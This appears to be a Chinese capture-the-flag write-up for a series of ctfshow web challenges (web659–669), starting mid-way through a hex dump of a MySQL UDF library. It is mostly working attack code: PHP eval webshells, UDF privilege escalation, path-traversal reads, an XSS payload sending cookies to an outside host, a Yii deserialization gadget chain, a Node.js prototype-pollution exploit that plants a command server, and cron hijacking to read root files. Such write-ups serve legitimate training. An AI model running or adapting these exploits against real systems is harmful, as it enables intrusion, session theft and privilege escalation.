1ff881720000000000000000000000000009600000012000b00ab0d00000000000001000000000000007001000012000b0066100000000000001400000000000000cf0100001000f1ff981720000000000000000000000000005600000012000b00a50d00000000000001000000000000000201000012000b002e0f0000000000002900000000000000a301000012000b00f71000000000000041000000000000003900000012000b00a40d00000000000001000000000000003201000012000b00ea0f0000000000003000000000000000bc0100001000f1ff881720000000000000000000000000006500000012000b00a60d00000000000001000000000000002501000012000b00800f0000000000006a000000000000008500000012000b00a80d00000000000003000000000000001701000012000b00570f00000000000029000000000000005501000012000b0047100000000000001f00000000000000a900000012000b00ac0d0000000000009a000000000000008f01000012000b00e8100000000000000f00000000000000d700000012000b00460e000000000000e800000000000000005f5f676d6f6e5f73746172745f5f005f66696e69005f5f6378615f66696e616c697a65005f4a765f5265676973746572436c6173736573006c69625f6d7973716c7564665f7379735f696e666f5f6465696e6974007379735f6765745f6465696e6974007379735f657865635f6465696e6974007379735f6576616c5f6465696e6974007379735f62696e6576616c5f696e6974007379735f62696e6576616c5f6465696e6974007379735f62696e6576616c00666f726b00737973636f6e66006d6d6170007374726e6370790077616974706964007379735f6576616c006d616c6c6f6300706f70656e007265616c6c6f630066676574730070636c6f7365007379735f6576616c5f696e697400737472637079007379735f657865635f696e6974007379735f7365745f696e6974007379735f6765745f696e6974006c69625f6d7973716c7564665f7379735f696e666f006c69625f6d7973716c7564665f7379735f696e666f5f696e6974007379735f657865630073797374656d007379735f73657400736574656e76007379735f7365745f6465696e69740066726565007379735f67657400676574656e76006c6962632e736f2e36005f6564617461005f5f6273735f7374617274005f656e6400474c4942435f322e322e35000000000000000000020002000200020002000200020002000200020002000200020002000200020001000100010001000100010001000100010001000100010001000100010001000100010001000100010001000100000001000100b20100001000000000000000751a690900000200d401000000000000801720000000000008000000000000008017200000000000d01620000000000006000000020000000000000000000000d81620000000000006000000030000000000000000000000e016200000000000060000000a00000000000000000000000017200000000000070000000400000000000000000000000817200000000000070000000500000000000000000000001017200000000000070000000600000000000000000000001817200000000000070000000700000000000000000000002017200000000000070000000800000000000000000000002817200000000000070000000900000000000000000000003017200000000000070000000a00000000000000000000003817200000000000070000000b00000000000000000000004017200000000000070000000c00000000000000000000004817200000000000070000000d00000000000000000000005017200000000000070000000e00000000000000000000005817200000000000070000000f00000000000000000000006017200000000000070000001000000000000000000000006817200000000000070000001100000000000000000000007017200000000000070000001200000000000000000000007817200000000000070000001300000000000000000000004883ec08e827010000e8c2010000e88d0500004883c408c3ff35320b2000ff25340b20000f1f4000ff25320b20006800000000e9e0ffffffff252a0b20006801000000e9d0ffffffff25220b20006802000000e9c0ffffffff251a0b20006803000000e9b0ffffffff25120b20006804000000e9a0ffffffff250a0b20006805000000e990ffffffff25020b20006806000000e980ffffffff25fa0a20006807000000e970ffffffff25f20a20006808000000e960ffffffff25ea0a20006809000000e950ffffffff25e20a2000680a000000e940ffffffff25da0a2000680b000000e930ffffffff25d20a2000680c000000e920ffffffff25ca0a2000680d000000e910ffffffff25c20a2000680e000000e900ffffffff25ba0a2000680f000000e9f0feffff00000000000000004883ec08488b05f50920004885c07402ffd04883c408c390909090909090909055803d900a2000004889e5415453756248833dd809200000740c488b3d6f0a2000e812ffffff488d05130820004c8d2504082000488b15650a20004c29e048c1f803488d58ff4839da73200f1f440000488d4201488905450a200041ff14c4488b153a0a20004839da72e5c605260a2000015b415cc9c3660f1f8400000000005548833dbf072000004889e57422488b05530920004885c07416488d3da70720004989c3c941ffe30f1f840000000000c9c39090c3c3c3c331c0c3c341544883c9ff4989f455534883ec10488b4610488b3831c0f2ae48f7d1488d69ffe8b6feffff83f80089c77c61754fbf1e000000e803feffff488d70ff4531c94531c031ffb921000000ba07000000488d042e48f7d64821c6e8aefeffff4883f8ff4889c37427498b4424104889ea4889df488b30e852feffffffd3eb0cba0100000031f6e802feffff31c0eb05b8010000005a595b5d415cc34157bf00040000415641554531ed415455534889f34883ec1848894c24104c89442408e85afdffffbf010000004989c6e84dfdffffc600004889c5488b4310488d356a030000488b38e814feffff4989c7eb374c89f731c04883c9fff2ae4889ef48f7d1488d59ff4d8d641d004c89e6e8ddfdffff4a8d3c284889da4c89f64d89e54889c5e8a8fdffff4c89fabe080000004c89f7e818fdffff4885c075b44c89ffe82bfdffff807d0000750a488b442408c60001eb1f42c6442dff0031c04883c9ff4889eff2ae488b44241048f7d148ffc94889084883c4184889e85b5d415c415d415e415fc34883ec08833e014889d7750b488b460831d2833800740e488d353a020000e817fdffffb20188d05ec34883ec08833e014889d7750b488b460831d2833800740e488d3511020000e8eefcffffb20188d05fc3554889fd534889d34883ec08833e027409488d3519020000eb3f488b46088338007409488d3526020000eb2dc7400400000000488b4618488b384883c70248037808e801fcffff31d24885c0488945107511488d351f0200004889dfe887fcffffb20141585b88d05dc34883ec08833e014889f94889d77510488b46088338007507c6010131c0eb0e488d3576010000e853fcffffb0014159c34154488d35ef0100004989cc4889d7534889d34883ec08e832fcffff49c704241e0000004889d8415a5b415cc34883ec0831c0833e004889d7740e488d35d5010000e807fcffffb001415bc34883ec08488b4610488b38e862fbffff5a4898c34883ec28488b46184c8b4f104989f2488b08488b46104c89cf488b004d8d4409014889c6f3a44c89c7498b4218488b0041c6040100498b4210498b5218488b4008488b4a08ba010000004889c6f3a44c89c64c89cf498b4218488b400841c6040000e867fbffff4883c4284898c3488b7f104885ff7405e912fbffffc3554889cd534c89c34883ec08488b4610488b38e849fbffff4885c04889c27505c60301eb1531c04883c9ff4889d7f2ae48f7d148ffc948894d00595b4889d05dc39090909090909090554889e5534883ec08488b05c80320004883f8ff7419488d1dbb0320000f1f004883eb08ffd0488b034883f8ff75f14883c4085bc9c390904883ec08e86ffbffff4883c408c345787065637465642065786163746c79206f6e6520737472696e67207479706520706172616d657465720045787065637465642065786163746c792074776f20617267756d656e747300457870656374656420737472696e67207479706520666f72206e616d6520706172616d6574657200436f756c64206e6f7420616c6c6f63617465206d656d6f7279006c69625f6d7973716c7564665f7379732076657273696f6e20302e302e34004e6f20617267756d656e747320616c6c6f77656420287564663a206c69625f6d7973716c7564665f7379735f696e666f290000011b033b980000001200000040fbffffb400000041fbffffcc00000042fbffffe400000043fbfffffc00000044fbffff1401000047fbffff2c01000048fbffff44010000e2fbffff6c010000cafcffffa4010000f3fcffffbc0100001cfdffffd401000086fdfffff4010000b6fdffff0c020000e3fdffff2c02000002feffff4402000016feffff5c02000084feffff7402000093feffff8c0200001400000000000000017a5200017810011b0c070890010000140000001c00000084faffff01000000000000000000000014000000340000006dfaffff010000000000000000000000140000004c00000056faffff01000000000000000000000014000000640000003ffaffff010000000000000000000000140000007c00000028faffff030000000000000000000000140000009400000013faffff01000000000000000000000024000000ac000000fcf9ffff9a00000000420e108c02480e18410e20440e3083048603000000000034000000d40000006efaffffe800000000420e10470e18420e208d048e038f02450e28410e30410e38830786068c05470e50000000000000140000000c0100001efbffff2900000000440e100000000014000000240100002ffbffff2900000000440e10000000001c0000003c01000040fbffff6a00000000410e108602440e188303470e200000140000005c0100008afbffff3000000000440e10000000001c00000074010000a2fbffff2d00000000420e108c024e0e188303470e2000001400000094010000affbffff1f00000000440e100000000014000000ac010000b6fbffff1400000000440e100000000014000000c4010000b2fbffff6e00000000440e300000000014000000dc01000008fcffff0f00000000000000000000001c000000f4010000fffbffff4100000000410e108602440e188303470e2000000000000000000000ffffffffffffffff0000000000000000ffffffffffffffff000000000000000000000000000000000100000000000000b2010000000000000c00000000000000a00b0000000000000d00000000000000781100000000000004000000000000005801000000000000f5feff6f00000000a00200000000000005000000000000006807000000000000060000000000000060030000000000000a00000000000000e0010000000000000b0000000000000018000000000000000300000000000000e81620000000000002000000000000008001000000000000140000000000000007000000000000001700000000000000200a0000000000000700000000000000c0090000000000000800000000000000600000000000000009000000000000001800000000000000feffff6f00000000a009000000000000ffffff6f000000000100000000000000f0ffff6f000000004809000000000000f9ffff6f0000000001000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000401520000000000000000000000000000000000000000000ce0b000000000000de0b000000000000ee0b000000000000fe0b0000000000000e0c0000000000001e0c0000000000002e0c0000000000003e0c0000000000004e0c0000000000005e0c0000000000006e0c0000000000007e0c0000000000008e0c0000000000009e0c000000000000ae0c000000000000be0c0000000000008017200000000000004743433a202844656269616e20342e332e322d312e312920342e332e3200004743433a202844656269616e20342e332e322d312e312920342e332e3200004743433a202844656269616e20342e332e322d312e312920342e332e3200004743433a202844656269616e20342e332e322d312e312920342e332e3200004743433a202844656269616e20342e332e322d312e312920342e332e3200002e7368737472746162002e676e752e68617368002e64796e73796d002e64796e737472002e676e752e76657273696f6e002e676e752e76657273696f6e5f72002e72656c612e64796e002e72656c612e706c74002e696e6974002e74657874002e66696e69002e726f64617461002e65685f6672616d655f686472002e65685f6672616d65002e63746f7273002e64746f7273002e6a6372002e64796e616d6963002e676f74002e676f742e706c74002e64617461002e627373002e636f6d6d656e7400000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000f0000000500000002000000000000005801000000000000580100000000000048010000000000000300000000000000080000000000000004000000000000000b000000f6ffff6f0200000000000000a002000000000000a002000000000000c000000000000000030000000000000008000000000000000000000000000000150000000b00000002000000000000006003000000000000600300000000000008040000000000000400000002000000080000000000000018000000000000001d00000003000000020000000000000068070000000000006807000000000000e00100000000000000000000000000000100000000000000000000000000000025000000ffffff6f020000000000000048090000000000004809000000000000560000000000000003000000000000000200000000000000020000000000000032000000feffff6f0200000000000000a009000000000000a009000000000000200000000000000004000000010000000800000000000000000000000000000041000000040000000200000000000000c009000000000000c00900000000000060000000000000000300000000000000080000000000000018000000000000004b000000040000000200000000000000200a000000000000200a0000000000008001000000000000030000000a0000000800000000000000180000000000000055000000010000000600000000000000a00b000000000000a00b000000000000180000000000000000000000000000000400000000000000000000000000000050000000010000000600000000000000b80b000000000000b80b00000000000010010000000000000000000000000000040000000000000010000000000000005b000000010000000600000000000000d00c000000000000d00c000000000000a80400000000000000000000000000001000000000000000000000000000000061000000010000000600000000000000781100000000000078110000000000000e000000000000000000000000000000040000000000000000000000000000006700000001000000320000000000000086110000000000008611000000000000dd000000000000000000000000000000010000000000000001000000000000006f000000010000000200000000000000641200000000000064120000000000009c000000000000000000000000000000040000000000000000000000000000007d000000010000000200000000000000001300000000000000130000000000001402000000000000000000000000000008000000000000000000000000000000870000000100000003000000000000001815200000000000181500000000000010000000000000000000000000000000080000000000000000000000000000008e000000010000000300000000000000281520000000000028150000000000001000000000000000000000000000000008000000000000000000000000000000950000000100000003000000000000003815200000000000381500000000000008000000000000000000000000000000080000000000000000000000000000009a000000060000000300000000000000401520000000000040150000000000009001000000000000040000000000000008000000000000001000000000000000a3000000010000000300000000000000d016200000000000d0160000000000001800000000000000000000000000000008000000000000000800000000000000a8000000010000000300000000000000e8162000\'));',
    'file':'../db/data_you_never_know.db',
    'key':'key_is_here_you_know'}
sess.post(url+"a.php",data=data2)
data3={
    '1':"shell_exec('cp /var/www/html/udf.so /usr/lib/mariadb/plugin/udf.so');",
    'file':'../db/data_you_never_know.db',
    'key':'key_is_here_you_know'
}
sess.post(url+"a.php",data=data3)
sess.post(url+"a.php",data={'1':'`mysql -uroot -proot -e "create function sys_eval returns string soname \'udf.so\'"`;'})
cmd='''mysql -uroot -proot -e "select sys_eval('sudo cat /root/you_win')"'''
cmd=base64.b64encode(cmd.encode()).decode()
datax={'1':'echo `echo {0}|base64 -d|sh`;'.format(cmd)}
r1=sess.post(url+"a.php",data=datax)
print(r1.text)
```

```shell
curl http://172.2.95.5/robots.txt

curl http://172.2.95.5/public/

<head><title>Index of /public/</title></head>
<body>
<h1>Index of /public/</h1><hr><pre><a href="../">../</a>
<a href="Readme.txt">Readme.txt</a>                                         07-Aug-2021 19:51                 123
</pre><hr></body>
</html>

curl http://172.2.95.5/public/Readme.txt
没有flag继续

curl http://172.2.95.5/public../

<head><title>Index of /public../</title></head>
<body>
<h1>Index of /public../</h1><hr><pre><a href="../">../</a>
<a href="FLAG/">FLAG/</a>                                              07-Aug-2021 19:51                   -
<a href="bin/">bin/</a>                                               07-Aug-2021 19:51                   -
<a href="dev/">dev/</a>                                               24-Sep-2024 08:35                   -
<a href="etc/">etc/</a>                                               24-Sep-2024 08:35                   -
<a href="home/">home/</a>                                              07-Aug-2021 19:51                   -
<a href="lib/">lib/</a>                                               22-Sep-2020 08:25                   -
<a href="media/">media/</a>                                             29-May-2020 14:20                   -
<a href="mnt/">mnt/</a>                                               29-May-2020 14:20                   -
<a href="opt/">opt/</a>                                               29-May-2020 14:20                   -
<a href="proc/">proc/</a>                                              24-Sep-2024 08:35                   -
<a href="public/">public/</a>                                            07-Aug-2021 19:51                   -
<a href="root/">root/</a>                                              07-Aug-2021 19:51                   -
<a href="run/">run/</a>                                               07-Aug-2021 19:51                   -
<a href="sbin/">sbin/</a>                                              22-Sep-2020 08:25                   -
<a href="srv/">srv/</a>                                               29-May-2020 14:20                   -
<a href="sys/">sys/</a>                                               24-Sep-2024 08:35                   -
<a href="tmp/">tmp/</a>                                               24-Sep-2024 08:40                   -
<a href="usr/">usr/</a>                                               07-Aug-2021 19:51                   -
<a href="var/">var/</a>                                               07-Aug-2021 19:51                   -
<a href="FLAG665">FLAG665</a>                                            07-Aug-2021 19:51                  51
<a href="getflag">getflag</a>                                            07-Aug-2021 19:51               19912
</pre><hr></body>
</html>
```

```
curl http://172.2.95.5/public../FLAG/

curl http://172.2.95.5/public../FLAG/flag659.txt
```

# web665

```
curl http://172.2.95.5/public../FLAG665
```

# web660

```php
function login($u,$p){
	$ret = array(
	'code'=>0,
	'message'=>'数据获取失败',
	);
	$u = addslashes($u);
	$p = addslashes($p);
	$res = db::query("select username from ctfshow_users where username = '$u' and password = '$p'");
	$date = new DateTime('now');
	$now = $date->format('Y-m-d H:i:s');
	$ip = addslashes(gethostbyname($_SERVER['HTTP_X_FORWARDED_FOR']));
	

	if(count($res)==0){
 		 db::insert("insert into `ctfshow_logs` (`username`,`login_time`,`login_ip`) values ('$u','$now','$ip')");
		 $ret['message']='账号或密码错误';
		 return json_encode($ret);
	}

	if(!auth()){
		$ret['message']='AuthKey 错误';
	}else{
		$ret['message']='登陆成功';
		$_SESSION['login']=true;
		$_SESSION['flag_660']=$_GET['flag'];
	}

	return json_encode($ret);


}
```

会存储`flag`那么是可以直接从日志里面拿到的，这个姿势牛

```
curl http://172.2.95.5/public../var/log/nginx/ctfshow_web_error_log_file_you_never_know.log
没读到在报错日志里面
curl http://172.2.95.5/public../var/log/nginx/ctfshow_web_access_log_file_you_never_know.log
```

# web661

```
curl http://172.2.95.5/public../
继续找
curl http://172.2.95.5/public../home/
curl http://172.2.95.5/public../home/flag/
curl http://172.2.95.5/public../home/flag/secret.txt
```

# web662

```
curl http://172.2.95.5/public../home/www-data/creater.sh

#!/bin/sh
file=`echo $RANDOM|md5sum|cut -c 1-3`.html
100   105  100   105    0     0   4565      0 --:--:-- --:--:-- --:--:--  4565
echo 'flag_663=ctfshow{xxxx}' > /var/www/html/$file
```

得了又要爆破,先拿`cookie`先

```python
echo 'dmFyIGltZyA9IG5ldyBJbWFnZSgpOwppbWcuc3JjID0gImh0dHA6Ly8xNzIuMi45NS40L3hzcy5waHA/MT0iK2RvY3VtZW50LmNvb2tpZTsKZG9jdW1lbnQuYm9keS5hcHBlbmQoaW1nKTs='|base64 -d > xss.js

select sys_eval('sudo curl -i -H "X-Forwarded-For:<script>document.location=\'http://172.2.95.4/xss.php?cookie=\'%2bdocument.cookie;</script>"  http://172.2.95.5/index.php?action=login');

(www-data:/var/www/html) $ cat cookie.txt
PHPSESSID=kbeu3lvncloob1eqcg5plpvp5e; auth=ZmxhZ182NTY9Y3Rmc2hvd3tlMGI4MGQ2Yjk5ZDJiZGJhZTM2ZjEyMWY3OGFiZTk2Yn0=
```

然后写个脚本爆破前三位字符，再像之前一样写个马

```
echo 'PD9waHAgQGV2YWwoJF9QT1NUWzFdKTs/Pg=='|base64 -d > /var/www/html/a.php
```

```python
import requests

session = requests.session()
url = "http://6ad980c6-186e-493f-8373-63593e72a9b6.challenge.ctf.show/a.php"
cookies = {"PHPSESSID": "kbeu3lvncloob1eqcg5plpvp5e"}


flag=0
list='0123456789abcdef'
while(flag==0):
    for i in list:
        for j in list:
            for k in list:
                    data = {"1": "echo `curl http://172.2.95.5:80/" + str(i) + str(j) + str(k) + ".html`;"}
                    r = session.post(url, cookies=cookies, data=data)
                    print(r.text)
                    if ('404' not in r.text):
                        print("http://172.2.95.5:80/" + str(i) + str(j) + str(k) + ".html")
                        print(r.text)
                        exit()
```

# web663

和web662的flag是一样的

回头去`phpinfo`里面找拓展



```
https://6ad980c6-186e-493f-8373-63593e72a9b6.challenge.ctf.show/a.php

1=echo+`curl+'http://172.2.95.5/phpinfo.php'`;
```

```
curl http://172.2.95.5/public../usr/local/lib/php/extensions/no-debug-non-zts-20180731/

curl http://172.2.95.5/public../usr/local/lib/php/extensions/no-debug-non-zts-20180731/ctfshow.so -o 1.so
```

然后在so文件里面找到663的`flag`

```
strings 1.so | grep -i flag
```

# web664

回去看`nginx`服务器配置文件

```
curl http://172.2.95.5/public../etc/nginx/nginx.conf
```

```
listen       8888;
        server_name  oa;
        root         /var/oa/web;
        index index.php;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
```

那么去看看`8888`

```
1=echo+`curl+'http://172.2.95.5:8888'`;
```

发现是Yii框架，打一个序列化

[Yii Framework](http://yiiframework.com/)/[2.0.43-dev](http://github.com/yiisoft/yii2/)

```
1=echo+`curl "http://172.2.95.5:8888/index.php?r=site%2Funserialize%26key=flag_663=ctfshow\{fa5cc1fb0bfc986d1ef150269c0de197\}" -d "UnserializeForm[ctfshowUnserializeData]=O%253A32%253A%2522Codeception%255CExtension%255CRunProcess%2522%253A2%253A%257Bs%253A9%253A%2522%2500%252A%2500output%2522%253BO%253A22%253A%2522Faker%255CDefaultGenerator%2522%253A1%253A%257Bs%253A10%253A%2522%2500%252A%2500default%2522%253Bs%253A5%253A%2522jiang%2522%253B%257Ds%253A43%253A%2522%2500Codeception%255CExtension%255CRunProcess%2500processes%2522%253Ba%253A1%253A%257Bi%253A0%253BO%253A22%253A%2522Faker%255CDefaultGenerator%2522%253A1%253A%257Bs%253A10%253A%2522%2500%252A%2500default%2522%253BO%253A28%253A%2522GuzzleHttp%255CPsr7%255CAppendStream%2522%253A2%253A%257Bs%253A37%253A%2522%2500GuzzleHttp%255CPsr7%255CAppendStream%2500streams%2522%253Ba%253A1%253A%257Bi%253A0%253BO%253A29%253A%2522GuzzleHttp%255CPsr7%255CCachingStream%2522%253A2%253A%257Bs%253A43%253A%2522%2500GuzzleHttp%255CPsr7%255CCachingStream%2500remoteStream%2522%253BO%253A22%253A%2522Faker%255CDefaultGenerator%2522%253A1%253A%257Bs%253A10%253A%2522%2500%252A%2500default%2522%253Bb%253A0%253B%257Ds%253A6%253A%2522stream%2522%253BO%253A26%253A%2522GuzzleHttp%255CPsr7%255CPumpStream%2522%253A3%253A%257Bs%253A34%253A%2522%2500GuzzleHttp%255CPsr7%255CPumpStream%2500source%2522%253BC%253A32%253A%2522Opis%255CClosure%255CSerializableClosure%2522%253A212%253A%257Ba%253A5%253A%257Bs%253A3%253A%2522use%2522%253Ba%253A0%253A%257B%257Ds%253A8%253A%2522function%2522%253Bs%253A57%253A%2522function%2528%2529%257B%255Chighlight_file%2528%2527%252Fvar%252Foa%252Fflag664.php%2527%2529%253Bdie%2528%2529%253B%257D%2522%253Bs%253A5%253A%2522scope%2522%253Bs%253A26%253A%2522GuzzleHttp%255CPsr7%255CPumpStream%2522%253Bs%253A4%253A%2522this%2522%253BN%253Bs%253A4%253A%2522self%2522%253Bs%253A32%253A%2522000000002ae55f4e00000000747d2f8c%2522%253B%257D%257Ds%253A32%253A%2522%2500GuzzleHttp%255CPsr7%255CPumpStream%2500size%2522%253Bi%253A-10%253Bs%253A34%253A%2522%2500GuzzleHttp%255CPsr7%255CPumpStream%2500buffer%2522%253BO%253A22%253A%2522Faker%255CDefaultGenerator%2522%253A1%253A%257Bs%253A10%253A%2522%2500%252A%2500default%2522%253Bs%253A1%253A%2522j%2522%253B%257D%257D%257D%257Ds%253A38%253A%2522%2500GuzzleHttp%255CPsr7%255CAppendStream%2500seekable%2522%253Bb%253A1%253B%257D%257D%257D%257D"`;
```

# web665

这个之前就读到了

# web666

从内网的数据库里面读取

```
$conn = new mysqli('localhost','root','root','ctfshow');
$res = $conn->query("select * from ctfshow_secret");
if($res){
   $row=$res->fetch_array(MYSQLI_BOTH);
}
echo $row[0];
$conn->close();
```

```
echo 'MT0kY29ubiA9IG5ldyBteXNxbGkoJ2xvY2FsaG9zdCcsJ3Jvb3QnLCdyb290JywnY3Rmc2hvdycpOwokcmVzID0gJGNvbm4tPnF1ZXJ5KCJzZWxlY3QgKiBmcm9tIGN0ZnNob3dfc2VjcmV0Iik7CmlmKCRyZXMpewogICAkcm93PSRyZXMtPmZldGNoX2FycmF5KE1ZU1FMSV9CT1RIKTsKfQplY2hvICRyb3dbMF07CiRjb25uLT5jbG9zZSgpOw=='|base64 -d > /tmp/1.txt
```

```
1=echo `curl -H "Content-Type: application/x-www-form-urlencoded" -X POST -d @/tmp/1.txt "http://172.2.95.5:8888/assets/shell.php"`;
```

# web667

扫描一下端口

```php
<?php
highlight_file(__FILE__);
for($i=0;$i<65535;$i++) {
  $t=stream_socket_server("tcp://0.0.0.0:".$i,$ee,$ee2);
  if($ee2 === "Address already in use") {
    var_dump($i);
  }
}
```

```
echo 'PD9waHAKaGlnaGxpZ2h0X2ZpbGUoX19GSUxFX18pOwpmb3IoJGk9MDskaTw2NTUzNTskaSsrKSB7CiAgJHQ9c3RyZWFtX3NvY2tldF9zZXJ2ZXIoInRjcDovLzAuMC4wLjA6Ii4kaSwkZWUsJGVlMik7CiAgaWYoJGVlMiA9PT0gIkFkZHJlc3MgYWxyZWFkeSBpbiB1c2UiKSB7CiAgICB2YXJfZHVtcCgkaSk7CiAgfQp9'|base64 -d > 1.php

chmod 777 1.php
```

扫出来是3000

```
1=echo+`curl+'http://172.2.95.5:3000'`;
```

# web668

```js
/login

utils.copy(user.userinfo,req.body);
function copy(object1, object2){
    for (let key in object2) {
        if (key in object2 && key in object1) {
            copy(object1[key], object2[key])
        } else {
            object1[key] = object2[key]
        }
    }
  }
```

原型链污染

```js
var http = require('http');
var querystring = require('querystring');

var postHTML = '123';
http.createServer(function (req, res) {
  var body = "";
  req.on('data', function (chunk) {
    body += chunk;
  });
  req.on('end', function () {
    body = querystring.parse(body);
    res.writeHead(200, {'Content-Type': 'text/html; charset=utf8'});
 try{
    if(body.cmd) {
        res.write("username：" + body.cmd);
        var result= global.process.mainModule.constructor._load('child_process').execSync('bash -c "'+body.cmd+'"').toString();
        res.write(result);
    } else {
        res.write(postHTML);
    }}
    catch{
       res.write(postHTML);
    }
    res.end();
  });
}).listen(8033);
```

```
1=echo `curl -i -X POST -H \'Content-type\':\'application/json\' -d \"{\\\"__proto__\\\":{\\\"__proto__\\\": {\\\"type\\\":\\\"Block\\\",\\\"nodes\\\":\\\"\\\",\\\"compileDebug\\\":1,\\\"self\\\":1,\\\"line\\\":\\\"global.process.mainModule.require(\'child_process\').exec(\'echo YmFzaCAtYyAiZWNobyBkbUZ5SUdoMGRIQWdQU0J5WlhGMWFYSmxLQ2RvZEhSd0p5azdDblpoY2lCeGRXVnllWE4wY21sdVp5QTlJSEpsY1hWcGNtVW9KM0YxWlhKNWMzUnlhVzVuSnlrN0NncDJZWElnY0c5emRFaFVUVXdnUFNBbk1USXpKenNLSUFwb2RIUndMbU55WldGMFpWTmxjblpsY2lobWRXNWpkR2x2YmlBb2NtVnhMQ0J5WlhNcElIc0tJQ0IyWVhJZ1ltOWtlU0E5SUNJaU93b2dJSEpsY1M1dmJpZ25aR0YwWVNjc0lHWjFibU4wYVc5dUlDaGphSFZ1YXlrZ2V3b2dJQ0FnWW05a2VTQXJQU0JqYUhWdWF6c0tJQ0I5S1RzS0lDQnlaWEV1YjI0b0oyVnVaQ2NzSUdaMWJtTjBhVzl1SUNncElIc0tJQ0FnSUdKdlpIa2dQU0J4ZFdWeWVYTjBjbWx1Wnk1d1lYSnpaU2hpYjJSNUtUc0tJQ0FnSUhKbGN5NTNjbWwwWlVobFlXUW9NakF3TENCN0owTnZiblJsYm5RdFZIbHdaU2M2SUNkMFpYaDBMMmgwYld3N0lHTm9ZWEp6WlhROWRYUm1PQ2Q5S1RzS0lIUnllWHNLSUNBZ0lHbG1LR0p2WkhrdVkyMWtLU0I3Q2lBZ0lDQWdJQ0FnY21WekxuZHlhWFJsS0NKMWMyVnlibUZ0WmUrOG1pSWdLeUJpYjJSNUxtTnRaQ2s3Q2lBZ0lDQWdJQ0FnZG1GeUlISmxjM1ZzZEQwZ1oyeHZZbUZzTG5CeWIyTmxjM011YldGcGJrMXZaSFZzWlM1amIyNXpkSEoxWTNSdmNpNWZiRzloWkNnblkyaHBiR1JmY0hKdlkyVnpjeWNwTG1WNFpXTlRlVzVqS0NkaVlYTm9JQzFqSUNJbksySnZaSGt1WTIxa0t5Y2lKeWt1ZEc5VGRISnBibWNvS1RzS0lDQWdJQ0FnSUNCeVpYTXVkM0pwZEdVb2NtVnpkV3gwS1RzS0lDQWdJSDBnWld4elpTQjdDaUFnSUNBZ0lDQWdjbVZ6TG5keWFYUmxLSEJ2YzNSSVZFMU1LVHNLSUNBZ0lIMTlDaUFnSUNCallYUmphSHNLSUNBZ0lDQWdJSEpsY3k1M2NtbDBaU2h3YjNOMFNGUk5UQ2s3SUFvZ0lDQWdmUW9nSUNBZ2NtVnpMbVZ1WkNncE93b2dJSDBwT3dwOUtTNXNhWE4wWlc0b09EQXpNeWs3Q2c9PXxiYXNlNjQgLWQgPiAvaG9tZS9ub2RlL2FhLmpzO25vZGUgL2hvbWUvbm9kZS9hYS5qcyI=|base64 -d|bash\')\\\"}}}\" http://172.2.95.5:3000/login`;

1=echo `curl -X POST -d "cmd=mysql -uroot -proot -e 'use ctfshow;select * from ctfshow_secret'" http://172.2.95.5:8033`;
```

# web669

有个root的进程且普通用户可编辑，且定时执行

```
1=echo `curl -X POST -d "cmd=ps -a" http://172.2.141.5:8033`;
```

```sh
#!/bin/sh

while true
do
	sh /home/node/nodestartup.sh 
	sleep 60
done
```

```
1=echo `curl -X POST -d "cmd=rm -rf nodestartup.sh;echo 'cat /root/* > /home/node/1.txt ' > nodestartup.sh" http://172.2.141.5:8033`;
```

# 脚本

```python
import requests
import re
import time
import base64

sess=requests.session()
url="http://1bc24237-9c92-4346-9f70-c6b15ce080f9.challenge.ctf.show/"   #替换这里即可
#模拟数据备份,写入木马
files={'file':('1.php',"<?php eval($_POST[1]);?>","application/octet-stream")}

#生成木马
sess.post(url+"system36d/users.php?action=upload",files=files)
data1={"key":"key_is_here_you_know","file":"../db/data_you_never_know.db","1":"file_put_contents('/var/www/html/a.php','<?php eval($_POST[1]);?>');"}
sess.post(url+'system36d/util/common.php?k=flag_651=ctfshow{a4c64b86d754b3b132a138e3e0adcaa6}',data=data1)
#生成sql执行web界面
data3={"key":"key_is_here_you_know","file":"../db/data_you_never_know.db","1":"file_put_contents('/var/www/html/sqltest.php','<?php highlight_file(__FILE__);error_reporting(0);$mysqli = new mysqli(\"localhost\",\"root\",\"root\",\"ctfshow\");$tmp = $mysqli->query($_POST[\"sql\"]);$result = $tmp->fetch_all();print_r($result);?>');"}
sess.post(url+"a.php",data=data3)

#udf提权
data2={ '1':'file_put_contents(\'udf.so\',hex2bin(\'7f454c4602010100000000000000000003003e0001000000d00c0000000000004000000000000000e8180000000000000000000040003800050040001a00190001000000050000000000000000000000000000000000000000000000000000001415000000000000141500000000000000002000000000000100000006000000181500000000000018152000000000001815200000000000700200000000000080020000000000000000200000000000020000000600000040150000000000004015200000000000401520000000000090010000000000009001000000000000080000000000000050e57464040000006412000000000000641200000000000064120000000000009c000000000000009c00000000000000040000000000000051e5746406000000000000000000000000000000000000000000000000000000000000000000000000000000000000000800000000000000250000002b0000001500000005000000280000001e000000000000000000000006000000000000000c00000000000000070000002a00000009000000210000000000000000000000270000000b0000002200000018000000240000000e00000000000000040000001d0000001600000000000000130000000000000000000000120000002300000010000000250000001a0000000f000000000000000000000000000000000000001b00000000000000030000000000000000000000000000000000000000000000000000002900000014000000000000001900000020000000000000000a00000011000000000000000000000000000000000000000d0000002600000017000000000000000800000000000000000000000000000000000000000000001f0000001c0000000000000000000000000000000000000000000000020000000000000011000000140000000200000007000000800803499119c4c93da4400398046883140000001600000017000000190000001b0000001d0000002000000022000000000000002300000000000000240000002500000027000000290000002a00000000000000ce2cc0ba673c7690ebd3ef0e78722788b98df10ed871581cc1e2f7dea868be12bbe3927c7e8b92cd1e7066a9c3f9bfba745bb073371974ec4345d5ecc5a62c1cc3138aff36ac68ae3b9fd4a0ac73d1c525681b320b5911feab5fbe120000000000000000000000000000000000000000000000000000000003000900a00b0000000000000000000000000000010000002000000000000000000000000000000000000000250000002000000000000000000000000000000000000000e0000000120000000000000000000000de01000000000000790100001200000000000000000000007700000000000000ba0000001200000000000000000000003504000000000000f5000000120000000000000000000000c2010000000000009e010000120000000000000000000000d900000000000000fb000000120000000000000000000000050000000000000016000000220000000000000000000000fe00000000000000cf000000120000000000000000000000ad00000000000000880100001200000000000000000000008000000000000000ab010000120000000000000000000000250100000000000010010000120000000000000000000000dc00000000000000c7000000120000000000000000000000c200000000000000b5000000120000000000000000000000cc02000000000000ed000000120000000000000000000000e802000000000000e70000001200000000000000000000009b00000000000000c200000012000000000000000000000028000000000000008001000012000b007a